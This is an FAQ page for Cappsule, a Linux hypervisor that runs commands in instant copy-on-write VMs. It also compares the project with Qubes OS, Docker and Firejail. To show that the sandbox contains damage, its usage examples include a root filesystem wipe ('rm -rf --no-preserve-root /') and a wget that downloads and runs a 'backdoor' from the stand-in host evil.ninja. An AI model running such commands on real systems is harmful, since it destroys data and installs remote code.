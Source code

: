 ```yaml
---
layout: page
title: FAQ
permalink: /faq/
---
```


## What's the difference between Cappsule and other hypervisors?

Traditional virtualization solutions (e.g.: VMware, Xen, KVM) virtualize whole operating systems (such as Windows or Linux), whereas Cappsule virtualizes a running system. VMs launched by Cappsule don't go through the boot step; they start directly on a running kernel. This particular feature allows an instantaneous launch of VMs. One can think of VMs as forks of the host operating system. In fact, the VMs' kernel is a copy of the running host kernel. Another particularity is that no VM disk image is required. There's no need to setup, configure, install, manage and keep new VMs up-to-date. The host filesystem is accessible as Copy-on-Write (with respect to a whitelist of files and folders accessible in read-only or read-write mode).



## Why Cappsule hypervisor is considered secure?

Every software has security bugs, and Cappsule is no exception. But it is developed from scratch, with the main goal of being secure. With less than 15K lines of code, the attack surface is extremely narrowed in comparison to mainstream hypervisors. Moreover, anything that isn't vital for the VMs isn't implemented and certain classes of attacks simply don't exist. For example, there's no way to access hardware (through I/O memory, I/O ports, or DMA). Also, there's no need of instruction emulation: vulnerabilities such as XSA-105 are thus impossible.



## How transparent is it?

Just prefix your commands with `virt exec`:

 * `virt exec bash`
 * `virt exec firefox`
 * `virt exec vlc random-cat-movie-downloaded-on-the-internet.avi`
 * `sudo virt exec rm -rf --no-preserve-root /`
 * `virt exec bash -c "wget http://evil.ninja/backdoor && chmod +x backdoor && sudo ./backdoor"`

That's it.

Some miscellaneous options are available to specify policies and shared folders, and a few commands help to manage running cappsules and retrieve information:

 * `virt ps`
 * `virt kill 4`
 * `virt attach 3`



## What's the difference with project X?

### Qubes OS

The projects don't share the very same goal. [Qubes OS](https://www.qubes-os.org/) is an amazing project whose developers pushed end user security a step ahead, and it protects against a broader panel of attacks than Cappsule (e.g. malicious firmware, buggy Wi-Fi or USB stack). Nevertheless, the main OS needs to be reinstalled, and users have to learn how to use this new system. Regarding security, Xen's history is disastrous but recent [hardware virtualization requirement](https://www.qubes-os.org/news/2016/07/21/new-hw-certification-for-q4/) should improve that issue.


### Subgraph OS

[Subgraph OS](https://subgraph.com/sgos/) is another promising project. While I haven't tested it, it doesn't seem to use hardware virtualization, but instead relies on Linux namespaces and SECCOMP to ensure the isolation of applications.


### Firejail

I heard a lot of positive comments about [Firejail](https://firejail.wordpress.com/). It also relies on Linux namespaces and SECCOMP to restrict the running environment of untrusted applications, and uses Xpra for the GUI.


### Docker

[Docker](https://www.docker.com/) isn't meant for security. While a lot of improvements have been made recently in this area, it also relies on Linux namespaces and SECCOMP to ensure container isolation. A single kernel vulnerability allows an attacker to compromise the host. On this topic, the chapter 7 (*Understanding Container Threats*) of NCC Group Whitepaper [Understanding and Hardening Linux Containers](https://www.nccgroup.trust/us/our-research/understanding-and-hardening-linux-containers/) is a must-read.


### Bromium

There is few technical public information available on [Bromium](https://www.bromium.com/), but its goals seem similar to Cappsule's. However, Microsoft Windows is supported by Bromium while Cappsule only runs on Linux. Joanna Rutkowska wrote a blogpost telling [How is Qubes OS different from...](https://theinvisiblethings.blogspot.com/2012/09/how-is-qubes-os-different-from.html) Bromium and other projects.


## Error messages

 * *Client error: cannot connect to cappsule server.* Is the daemon running (`/usr/local/cappsule/usr/bin/daemon`)?



## Is there a bug bounty?

Obviously. Here are the [rewards](/bugbounty).

